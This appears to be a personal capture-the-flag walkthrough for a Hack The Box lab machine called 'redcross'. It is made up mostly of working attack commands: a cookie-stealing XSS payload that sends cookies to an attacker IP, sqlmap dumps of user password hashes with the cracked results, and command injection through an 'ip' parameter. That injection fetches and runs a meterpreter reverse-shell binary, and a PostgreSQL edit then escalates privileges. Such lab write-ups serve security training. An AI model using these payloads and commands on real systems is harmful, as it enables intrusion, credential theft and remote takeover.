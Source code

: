 1/ nmap -> 80,443,22

2/ certificat -> penelope@redcross.htb

3/ FUZZ : 
	gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://intra.redcross.htb -k
	gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://intra.redcross.htb/documentation -x pdf,txt -k


	ffuf -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u https://intra.redcross.htb/FUZZ -c -v -fc 404,400,301

	https://intra.redcross.htb/documentation/account-signup.pdf



4/ login.php -> guest/guest	-> On est co mais Osef

5/ faille web -> page de contact ->
			<script>alert(1)</script>
	Payload : <script>var myimg = new Image(); myimg.src = 'http://10.10.16.6/q?=' + document.cookie;</script>

	On ajoute les cookies :	LANG=EN_US;%20SINCE=1667840531;%20LIMIT=10;%20DOMAIN=admin

	4 users : 
		admin
		penelope
		charles
		guest

	on utile le filtre : 2 parametres disponible :
		https://intra.redcross.htb/?o=2&page=app

6/ burpsuite : login.req

		SQLMAP : 
			sqlmap -r login.req --risk=3 -p o --dbms=mysql --random-agent --delay=1.0 --technique=UE -T users --dbs

			sqlmap -r login.req --risk=3 -p o --dbms=mysql --random-agent --delay=1.0 --technique=UE -D redcross --tables

			sqlmap -r login.req --risk=3 -p o --dbms=mysql --random-agent --delay=1.0 --technique=UE -D redcross -T users --dump

	hashcat -a 0 -m 3200 

		Database: redcross
			Table: users
			[5 entries]
			+----+------------------------------+------+--------------------------------------------------------------+----------+
			| id | mail                         | role | password                                                     | username |
			+----+------------------------------+------+--------------------------------------------------------------+----------+
			| 1  | admin@redcross.htb           | 0    | $2y$10$z/d5GiwZuFqjY1jRiKIPzuPXKt0SthLOyU438ajqRBtrb7ZADpwq. | admin    |
			| 2  | penelope@redcross.htb        | 1    | $2y$10$tY9Y955kyFB37GnW4xrC0.J.FzmkrQhxD..vKCQICvwOEgwfxqgAS | penelope |
			| 3  | charles@redcross.htb         | 1    | $2y$10$bj5Qh0AbUM5wHeu/lTfjg.xPxjRQkqU6T8cs683Eus/Y89GHs.G7i | charles  |
			| 4  | tricia.wanderloo@contoso.com | 100  | $2y$10$Dnv/b2ZBca2O4cp0fsBbjeQ/0HnhvJ7WrC/ZN3K7QKqTa9SSKP6r. | tricia   |
			| 5  | non@available                | 1000 | $2y$10$U16O2Ylt/uFtzlVbDIzJ8us9ts8f9ITWoPAWcUfK585sZue03YBAi | guest    |
			+----+------------------------------+------+--------------------------------------------------------------+----------+
7/ Crack de password 

		hashid
		$2y$10$z/d5GiwZuFqjY1jRiKIPzuPXKt0SthLOyU438ajqRBtrb7ZADpwq.

		bcrypt

		
		On dehash :		john 02-Loots/hashes.txt  --wordlist=/usr/share/wordlists/rockyou.txt --pot=hashSolve.pot
		ou
						.\hashcat.exe ..\hashes.txt --wordlist ..\rockyou.txt -m 3200

		au bout 1h30 : 
			$2y$10$bj5Qh0AbUM5wHeu/lTfjg.xPxjRQkqU6T8cs683Eus/Y89GHs.G7i:cookiemonster
			$2y$10$U16O2Ylt/uFtzlVbDIzJ8us9ts8f9ITWoPAWcUfK585sZue03YBAi:guest
			$2y$10$tY9Y955kyFB37GnW4xrC0.J.FzmkrQhxD..vKCQICvwOEgwfxqgAS:alexss				

8/ FUZZ sub domain
	 wfuzz -H 'Host: FUZZ.redcross.htb' -u 'https://10.10.10.113' -w '/usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt' --hc 301

9/ sub domain admin

	illumdir : W5kpL67B
	et on white list notre IP

10/
	nmaper

11/ XSS sur le Add user

12/ Sur l'ajout IP avec BURP :
	ip=10.10.10.123;ls&action=deny
	ip=10.10.10.123;cat users.php&action=deny

	user=unixnss password=fios@ew023xnw

	user=unixusrmgr password=dheu%7wjx8B&
13/ POSTGRESSQL

	psql -d unix -U unixusrmgr -h 10.10.10.113
	



On check si il y a python
ip=127.0.0.1;echo;which python&action=deny

ip=10.10.10.123;curl http://10.10.16.6/test&id=12&action=deny

msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.16.6 LPORT=8889 -f elf -o reverse.elf

ip=127.0.0.1;cd /tmp;wget http://10.10.16.6/reverse.elf&id=15&action=deny
ip=127.0.0.1;cd /tmp;ls -al&id=15&action=deny
ip=127.0.0.1;cd /tmp;chmod 777 reverse.elf&id=15&action=deny
ip=127.0.0.1;cd /tmp;c./reverse.elf&id=15&action=deny

On lance le liscener :
	msfconsole -q -x "use multi/handler; set payload linux/x64/meterpreter/reverse_tcp; set lhost 10.10.16.6; set lport 8889; exploit"
On stabilise :
	python3 -c 'import pty;pty.spawn("/bin/bash")'

Connexion Postgresql :
	psql -h 127.0.0.1 -d unix -U unixusrmgr
	\dt
	select * from passwd_table;
	update passwd_table set gid=0 where gid=1001;
	update passwd_table set homedir='/home' where homedir='/var/jail/home';